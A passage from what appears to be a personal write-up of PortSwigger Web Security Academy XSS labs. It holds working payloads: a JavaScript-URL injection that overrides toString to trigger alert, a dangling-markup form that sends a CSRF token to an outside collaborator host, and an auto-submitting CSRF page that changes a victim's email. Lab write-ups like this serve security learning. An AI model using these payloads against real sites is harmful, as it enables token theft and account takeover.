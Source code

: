 We can read it better in Markdown below about how we have escaped the method and body parameters and also successfully closed the trailing `'}` with `{'x':'`.

```javascript
fetch('/analytics',{method:'post',body:'/post?postId=1&'},PAYLOADHERE,{'x':''}).finally(_=>window.location='/')"
```

The following payload works (explanation below):

```
1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{'x':'
```

Final function looks like this:

```javascript
fetch('/analytics',{method:'post',body:'/post?postId=1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{'x':''}).finally(_=>window.location='/')"
```

Understanding the payload:

1. `1&'},`

Ends the request body with method and body

2. `x=x=>{throw/**/onerror=alert,1337},`

Defines an arrow function assigned to `x`, where the function body immediately throws.

3. `toString=x,` 

Overwrites `toString` with our custom function `x`.

4. `window+'',` 

Forces the browser to evaluate `window` as a string, which in turn triggers `toString()`.  Since we overwrote `toString = x`, this ensures that our malicious function `x` runs.

5. `{'x':'`

Ends the `'}` to make sure the javascript is not broken. This is added to make sure we don't get any syntax errors.

When `window + ''` runs, the `toString()` function is triggered, which we had overwritten as function `x`, which throws an error and calls `alert()`.
### 29. Reflected XSS protected by very strict CSP, with dangling markup attack

Payloads that worked:

```html
"></form><form class="login-form" name="evil-form" action="https://BURPID.oastify.com/token" method="GET"><button class="button" type="submit">Click Me</button>
```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://LABID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil-user&#46;net" />
      <input type="hidden" name="csrf" value="OeyI3k22l5q7AQhX03Ath4sPWICXKQKr" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```